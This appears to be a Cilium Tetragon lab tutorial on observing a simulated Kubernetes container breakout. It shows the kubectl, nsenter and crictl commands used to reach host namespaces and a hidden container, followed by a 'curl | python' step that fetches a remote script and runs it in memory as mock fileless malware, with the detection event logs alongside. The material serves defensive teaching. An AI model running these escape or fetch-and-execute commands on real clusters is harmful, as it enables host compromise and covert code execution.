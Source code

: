Now, that you actually have persisted the breakout by spinning up an invisible container, you can download and execute a malicious script in memory that never touches disk. Note that this simple python script can be a fileless malware which is almost impossible to detect by using traditional userspace tools.

First, in >_ Terminal 1 let's monitor the generated Security Observability events like we did before.
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --pods sith-infiltrator

In >_ Terminal 3 let's enter to the sith-infiltrator:
kubectl exec -it sith-infiltrator -- /bin/bash
nsenter -t 1 -a bash
CONT_ID=$(crictl ps --name hack-latest --output json | jq -r '.containers[0].id')
echo $CONT_ID
crictl exec -it $CONT_ID /bin/bash

In the logs in >_ Terminal 1 the first process_exec event shows the bash execution in a container with a container id (for example 24220f07dacc), which is the invisible hack-latest container.

Note that due to ringbuffer/latency reasons it sometimes can take a moment or two until certain log messages appear!
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --pods sith-infiltrator
🚀 process default/sith-infiltrator /usr/bin/nsenter -t 1 -a bash 🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter cgroup         🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter ipc            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter uts            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter net            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter pid            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter mnt            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter time           🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/bash          🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/local/bin/crictl ps --name hack-latest --output json 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/jq -r .containers[0].id 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/local/bin/crictl ps --name hack-latest --output json 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/jq -r .containers[0].id 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/bash  0 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /bin/bash              🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/local/bin/crictl exec -it 20b24932aba135e380556db4e1b3189ab2a0f3afe1e56ca4f68baa4f21366b35 /bin/bash 🛑 CAP_SYS_ADMIN
🔌 connect default/sith-infiltrator /usr/local/bin/crictl tcp 127.0.0.1:40122 -> 127.0.0.1:39285 🛑 CAP_SYS_ADMIN

To be able to fine grain the Security Observability events from Cilium Tetragon, start monitoring the events that match process names curl or python in >_ Terminal 2:
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --processes curl,python

Then, in >_ Terminal 3 download a malicious python script and execute it in memory:
curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py | python
